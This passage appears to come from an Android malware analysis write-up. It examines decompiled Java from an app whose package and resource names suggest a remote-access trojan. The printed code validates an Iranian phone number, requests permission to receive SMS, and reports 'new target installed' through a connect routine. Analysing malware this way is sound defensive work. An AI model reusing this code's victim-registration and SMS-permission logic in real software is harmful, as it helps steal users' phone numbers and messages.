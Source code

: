 ```xml
```

## `MainActivity` Class

In the `MainActivity` class of package `ir.siqe.holo` we can see the application implementing a few calls that attempt to identify the phone number, creating a file in the shared preferences directory the stores the string info, and then going through a series of checks on the phone number. If the phone does not match the specific country code it displays the following error. 

```java
[TRUNCATED]
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.appcompat.app.AppCompatActivity, androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(realrat.siqe.holo.R.layout.activity_main);
        final SharedPreferences.Editor edit = getSharedPreferences("info", 0).edit();
        final EditText editText = (EditText) findViewById(realrat.siqe.holo.R.id.idetify_phone);
        findViewById(realrat.siqe.holo.R.id.go).setOnClickListener(new View.OnClickListener() { // from class: ir.siqe.holo.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                if (!editText.getText().toString().matches("(\\+98|0)?9\\d{9}")) {
                    Toast.makeText(MainActivity.this, "شماره موبایل معتبر نیست", 0).show();
                    return;
                }
[TRUNCATED]
```

![Untitled](Android%20Malware%20Analysis%20Series%20-%20Part%202%201%20547625440966404b80b0a668a5d940af/Untitled.png)

Once done it attempts to ask the user for specific permissions to `RECIEVE_SMS` to the android device. It obtains the phone number string and starts the `MainActivity2` class. 

```java
[TRUNCATED]
ActivityCompat.requestPermissions(MainActivity.this, new String[]{"android.permission.RECEIVE_SMS"}, 0);
                if (Integer.valueOf(ActivityCompat.checkSelfPermission(MainActivity.this, "android.permission.RECEIVE_SMS")).intValue() == 0) {
                    edit.putString("phone", editText.getText().toString());
                    edit.commit();
                    new connect(editText.getText().toString(), "تارگت جدید نصب کرد", MainActivity.this);
                    MainActivity.this.startActivity(new Intent(MainActivity.this, MainActivity2.class));
                }
            }
        });
    }
}
```
